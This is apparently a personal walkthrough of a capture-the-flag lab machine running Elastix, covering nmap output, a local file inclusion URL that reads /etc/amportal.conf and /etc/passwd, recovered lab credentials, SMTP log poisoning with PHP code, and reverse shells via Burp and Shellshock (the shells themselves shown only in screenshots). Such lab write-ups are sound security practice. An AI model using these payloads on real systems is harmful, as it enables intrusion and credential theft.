 ####nmap results
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: AUTH-RESP-CODE UIDL RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) USER TOP STLS EXPIRE(NEVER) PIPELINING APOP
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            874/udp   status
|_  100024  1            877/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CHILDREN CATENATE SORT=MODSEQ LISTEXT ACL NAMESPACE NO QUOTA URLAUTHA0001 UIDPLUS X-NETSCAPE LIST-SUBSCRIBED BINARY ANNOTATEMORE Completed CONDSTORE THREAD=REFERENCES SORT OK IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ IDLE MAILBOX-REFERRALS MULTIAPPEND ATOMIC RIGHTS=kxte UNSELECT ID IMAP4 RENAME STARTTLS
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a 82b6 cf7e 1afa 5284 1c91 60c8 fbc8
|_SHA-1: 800a c6e7 065e 1198 0187 c452 0d9b 18ef e557 a09f
|_ssl-date: 2021-12-19T06:17:21+00:00; +1h00m00s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).

```
```
https://10.10.10.7/configs/
nothing here.

So go /admin:

```

![[Screenshot 2021-12-19 at 1.57.20 PM.png]]

```
Poping up login window, try fews defult credentials, no luck, press cancel, brings to https://10.10.10.7/admin/config.php

```

![[Screenshot 2021-12-19 at 2.02.50 PM.png]]

```
Saw 'FreePBX 2.8.1.4'

nothing here, back to the main page, title shows 'Elastix'-- seachsploit elastix
Saw local file inclusion vuln, go inside

searchsploit -x 

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

go to above link, view source:

```

![[Screenshot 2021-12-19 at 2.25.07 PM.png]]

```
there are some credentials, save for further use, since port 20 is avaliable, maybe can try ssh

AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

```

```
anothor thing can try: etc/passwd
and etc/pam.d/passwords-auth
or etc/pam.d/system-auth
```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/pam.d/passwords-auth%00&module=Accounts&action

![[Screenshot 2021-12-19 at 2.29.19 PM.png]]

```saw some username, maybe use hydra to brusforce.```

ssh root@10.10.10.7

```provide the password, then it's root user ''' -- however it didnt work on me. since port 25 is running as well, try telnet ```

telnet 10.10.10.7 25

![[Screenshot 2021-12-19 at 3.08.15 PM.png]]

``` To check if usernaem asterisk a valid user on localhost -- yes it is! ```

``` then try to send a email to the user, with php code as body, works well ```
![[Screenshot 2021-12-19 at 3.10.50 PM.png]]

``` then go to burp, local file inclusion: go to var/html/asterisk, from response can tell the mail was received successfully
```
![[Screenshot 2021-12-19 at 3.12.42 PM.png]]
``` append ipp=whoami to the URL, to test if code executed ```
![[Screenshot 2021-12-19 at 3.14.02 PM.png]]
```in burp, convert the GET request into POST```
![[Screenshot 2021-12-19 at 3.15.45 PM.png]]
``` OK, now send bash reverse shell -- remember to control u to encryt the request ```
![[Screenshot 2021-12-19 at 3.16.47 PM.png]]

``` listen on the port, the shell come back```
![[Screenshot 2021-12-19 at 3.19.42 PM.png]]

3: saw /cgi , webadmin on port 1000, it may vulberable to shellshock

![[Screenshot 2021-12-19 at 3.43.44 PM.png]]

``` put bash reverse shell on user-agent, then set listener on local machine, get the shell back ```

![[Screenshot 2021-12-19 at 3.44.00 PM.png]]